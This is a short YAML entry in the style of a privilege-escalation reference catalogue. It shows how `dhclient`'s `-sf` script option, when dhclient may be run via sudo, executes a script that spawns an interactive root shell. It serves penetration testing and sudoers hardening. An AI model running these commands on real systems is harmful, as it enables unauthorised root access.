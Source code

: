 ```yaml
---
functions:
  sudo:
    - description: The below technique utilizies `dhclient`'s script file option (`-sf`) to execute arbitrary commands with `sudo`.
      code: |
        cat > /tmp/script.sh << EOF
        #!/bin/bash
        bash -i
        EOF
        chmod +x /tmp/script.sh
        sudo dhclient -sf /tmp/script.sh
---
```


